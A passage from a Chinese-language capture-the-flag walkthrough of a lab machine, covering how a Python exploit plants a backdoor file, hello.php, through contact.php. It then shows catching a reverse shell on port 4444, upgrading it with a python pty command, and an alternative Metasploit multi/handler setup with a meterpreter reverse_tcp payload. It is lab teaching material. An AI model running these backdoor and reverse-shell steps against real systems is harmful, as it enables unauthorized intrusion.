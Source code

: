 

然后kali运行py文件

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220520220653605.png" alt="image-20220520220653605" style="zoom:67%;" />

网页访问contact.php，会生成后门hello.php，然后kali监听本地4444端口（提前开放）

访问http://192.168.123.129/hello.php，一直在转，而kali这边收到shell

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220520221100987.png" alt="image-20220520221100987" style="zoom:67%;" />



进入交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```



#### 法二：msf一键利用exp

这里没有用msf，后续发现msf 也有exp，可以直接用，操作类似，`info 0`查看exp详情

![image-20220521165546240](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220521165546240.png)

见https://www.freebuf.com/articles/web/261047.html

![image-20220521170324960](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220521170324960.png)



注意，一开始运行失败，后门切换到root就可以了，不知道为啥，可能是权限不够

![image-20220521172858750](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220521172858750.png)

这里也可以像法1一样用searsploit的脚本然后用msf的handle模块监听即可

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.123.134
lhost => 192.168.123.134
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```

msf可能卡在收到session，但一直进不去，可以**ctrl c先退出监听**，再sessions -i进入

![image-20220522084302397](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522084302397.png)





### flag2
